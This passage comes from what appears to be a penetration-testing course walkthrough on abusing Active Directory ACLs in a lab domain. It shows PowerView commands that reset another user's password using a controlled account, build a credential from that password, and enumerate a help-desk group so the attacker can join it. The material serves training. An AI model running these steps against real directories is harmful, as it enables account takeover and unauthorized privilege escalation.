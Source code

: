 ```powershell-session
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'damundsen'
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
```

We can see that the command completed successfully, changing the password for the target user while using the credentials we specified for the `wley` user that we control. Next, we need to perform a similar process to authenticate as the `damundsen` user and add ourselves to the `Help Desk Level 1` group.

#### Creating a SecureString Object using damundsen

  ACL Abuse Tactics

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

Next, we can use the [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) function to add ourselves to the target group. We can first confirm that our user is not a member of the target group. This could also be done from a Linux host using the `pth-toolkit`.

#### Adding damundsen to the Help Desk Level 1 Group

  ACL Abuse Tactics

```powershell-session
PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members

CN=Stella Blagg,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Marie Wright,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Jerrell Metzler,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Evelyn Mailloux,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Juanita Marrero,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Joseph Miller,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Wilma Funk,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Maxie Brooks,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Scott Pilcher,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Orval Wong,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=David Werner,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Alicia Medlin,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Lynda Bryant,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Tyler Traver,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Maurice Duley,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=William Struck,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Denis Rogers,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Billy Bonds,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Gladys Link,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Gladys Brooks,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Margaret Hanes,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Michael Hick,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Timothy Brown,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Nancy Johansen,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Valerie Mcqueen,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Dagmar Payne,OU=HelpDesk,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
```
